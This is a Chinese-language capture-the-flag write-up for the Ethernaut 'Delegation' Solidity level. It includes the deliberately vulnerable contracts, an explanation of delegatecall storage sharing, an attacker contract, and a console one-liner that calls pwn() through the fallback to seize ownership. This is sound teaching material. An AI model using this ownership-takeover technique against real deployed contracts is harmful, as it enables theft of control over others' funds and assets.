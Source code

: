 # Delegation

## 问题

```
这一关的目标是申明你对你创建实例的所有权.

  这可能有帮助

仔细看solidity文档关于 delegatecall 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
Fallback 方法
方法 ID
```

## 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

## 漏洞

根据提示，学了一下 [可升级合约的原理-DelegateCall](https://blog.csdn.net/Lyon_Nee/article/details/125537829)

[Unsafe Delegatecall (part 1) | Hack Solidity (0.6)](https://www.youtube.com/watch?v=bqn-HzRclps)

[Unsafe Delegatecall (part 2) | Hack Solidity (0.6)](https://www.youtube.com/watch?v=oinniLm5gAM)

就是合约A使用delegatecall调用合约B的意思就是，合约A允许合约B通过Delegatecall调用的时候，使用A的上下文。


比如：`storage`,`msg.sender`,`msg.data`,`msg.value` 等等。

![](./res/storage_layout.png)

solidity中的storage都是按照上面的顺序进行保存的，状态变量都是storage类型。

当函数A通过Delegatecall调用函数B的时候，在这个瞬间，函数B可以使用A的上下文，也就是说，在现在函数A的stroage layout，其实在相同的序列号的情况下，已经B的覆盖掉了，因为他们用的同一个上下文。







## 解决方案

### 正确但不正确的解法

```solidity
pragma solidity ^0.8.0;

contract TokenPwn{
    address public _target;
    address public owner;
    constructor(address target_){
        _target = target_;
        owner = msg.sender;
    }

    function go()public  {
        address(_target).call(abi.encodeWithSignature("pwn()"));
    }
}
```

合约`Delegation`中明显没有`pwn`函数 ，因此会调用`fallback`函数。此时会通过`address(delegate).delegatecall(msg.data);`调用msg.data中的值。只是`msg.data`就只有`abi.encodeWithSignature("pwn()")`.

solidity的这个data全局变量，还是有点麻烦的。就是他是分为 函数选择器，数据等组成。

但是这里有一个问题，就是 `Delegate`合约中,`pwn`方法设置owner的方法是`owner = msg.sender;`，此时通过写一个代理合约的方法调用就没办法通关。
但是可以通过`tx`的全局变量来通关。


`await contract.sendTransaction({data:web3.utils.keccak256("pwn()")})`


但是，最后要知道，delegatecall是可以覆盖slot的，完全可以利用这个来实现覆盖某些变量。

